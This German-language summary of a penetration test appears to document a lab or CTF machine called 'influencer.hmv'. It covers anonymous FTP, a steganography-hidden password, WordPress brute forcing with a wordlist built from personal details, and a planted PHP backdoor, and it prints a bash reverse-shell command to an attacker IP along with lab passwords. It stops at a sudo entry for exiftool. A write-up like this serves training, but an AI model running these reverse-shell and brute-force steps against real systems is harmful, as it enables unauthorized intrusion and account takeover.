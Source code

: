 Der Penetrationstest umfasste mehrere Schlüsselphasen:

### 🔎 Reconnaissance

*   Erster Netzwerkscan (`arp-scan`) zur Identifizierung der Ziel-IP-Adresse (192.168.2.40).
*   Umfassender Portscan (`nmap`), der zwei offene Ports aufdeckte: 80 (HTTP - Apache httpd 2.4.52) und 2121 (FTP - vsftpd 3.0.5).
*   Nmap-Skripte zeigten, dass anonymer FTP-Login erlaubt war und listeten Dateien auf dem FTP-Server auf (mehrere JPGs und `note.txt`).

### 🌐 Web Enumeration

*   Verbindung zur anonymen FTP-Freigabe (`ftp`) und Bestätigung der Dateilistung.
*   Herunterladen aller Dateien vom FTP (`wget -r`).
*   Analyse von `note.txt`, die einen Hinweis enthielt: "- Change wordpress password".
*   Verwendung von `stegseek` auf `snapchat.jpg` (vom FTP) mit `rockyou.txt` und Finden einer versteckten Datei `backup.txt` mit einem Klartextpasswort: `<span class="password">u3jkeg97gf</span>`.
*   Hinzufügen von `influencer.hmv` zur lokalen `/etc/hosts`-Datei zur Zuordnung zur Ziel-IP.
*   Erkundung des Webservers unter `http://influencer.hmv:80` (Weiterleitung nach `/wordpress`).
*   Entdeckung eines Blogbeitrags mit einem Kommentar von "Admin" an "Luna", der das Ändern eines Passworts und das Vermeiden persönlicher Informationen erwähnte. Dies identifizierte den Benutzernamen "luna" und deutete auf ein schwaches Passwort hin.
*   Verwendung der WordPress REST API (`curl | jq`) zur Bestätigung der Existenz des Benutzers `luna` (ID 1).
*   Verwendung von `wpscan` mit API-Token zur Enumerierung von WordPress-Schwachstellen, Bestätigung der WordPress-Version (6.8.1), Finden eines veralteten Akismet-Plugins (5.1), Identifizierung offener Verzeichnislistung unter `/wp-content/uploads/` und Bestätigung des Benutzers `luna`.
*   Verwendung von `cupp` zur Erstellung eines gezielten Passwortwörterbuchs (`luna.txt`) basierend auf öffentlich verfügbaren Informationen über "Luna Shine" (Name, Geburtsdatum 24061997) aus dem Blog.
*   Durchführung eines Passwort-Brute-Force-Angriffs gegen den WordPress-Login (`wp-login.php`) für den Benutzer `luna` mit `wpscan` und dem `luna.txt` Wörterbuch.
*   Erfolgreiches Knacken des Passworts für den Benutzer `luna`: `<span class="password">luna_1997</span>`.

### 💻 Initialer Zugriff

*   Anmeldung im WordPress-Administrationsbereich mit `luna:<span class="password">luna_1997</span>`.
*   Erkundung der Theme-Dateien über den Erscheinungsbild-Editor und Entdeckung einer Backdoor in `/wordpress/wp-content/themes/blogarise/404.php`: `< scrpt > system($GET["cmd"]); < /scrpt >`.
*   Bestätigung der Remote Code Execution (RCE) durch Ausführung von `id` über den `cmd` GET-Parameter.
*   Einrichtung eines Netcat-Listeners (`nc -lvnp 4444`) auf der Angreifer-Maschine.
*   Ausführung eines Bash Reverse-Shell-Paylo<span class="command">a</span>d<span class="command">s</span> über die RCE-Schwachstelle (`curl http://influencer.hmv/wordpress/wp-content/themes/blogarise/404.php?cmd=/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.199/4444 0>&1'`).
*   Erfolgreiche Erlangung einer initialen Shell als Benutzer `www-data`.

### 📈 Privilege Escalation

*   Von der `www-data` Shell aus, Untersuchung von `wp-config.php` und Finden von Datenbankzugangsdaten: `DB_USER: www-data`, `DB_PASSWORD: <span class="password">s3cret</span>`, `DB_NAME: wordpressdb`.
*   Zugriff auf die MariaDB-Datenbank mit diesen Zugangsdaten (`mysql -u www-data -ps3cret`) und Abfrage der `wp_users`-Tabelle, Finden des Hashes für Benutzer `luna`.
*   Prüfung lokaler lauschender Ports (`ss -altpn`) und Identifizierung eines Dienstes, der auf `127.0.0.1:1212` lauscht. Weitere Untersuchung (manuelle Verbindung) zeigte, dass es sich um SSH handelte.
*   Versuch der SSH-Anmeldung als Benutzer `luna` an `127.0.0.1:1212` unter Verwendung des Passworts `<span class="password">u3jkeg97gf</span>`, das über Steganografie gefunden wurde.
*   Erfolgreiche Anmeldung via SSH als Benutzer `luna`.
*   Prüfung der `sudo`-Berechtigungen für `luna` (`sudo -l`). Finden von `(juan) NOPASSWD: /usr/bin/exiftool`.